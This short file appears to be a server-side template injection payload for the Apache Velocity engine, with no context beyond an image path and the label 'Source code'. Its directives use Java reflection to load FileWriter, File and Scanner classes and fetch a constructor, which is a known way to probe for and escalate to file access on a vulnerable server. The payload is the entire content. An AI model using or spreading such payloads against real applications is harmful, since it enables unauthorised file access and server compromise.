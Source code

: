 #set( $monkey = '888888888888888888888888=========99999999999999999999999' )
$monkey
#set ($e="exp")
#set ($a=$e.getClass().forName("java.io.FileWriter"))
#set ($ab=$e.getClass().forName("java.io.File"))
#set($sc = $e.getClass().forName("java.util.Scanner"))
#set($constructor = $sc.getDeclaredConstructor($e.getClass().forName("java.io.FileWriter")))
$a
$ab
$b
$sc
$constructor
$monkey
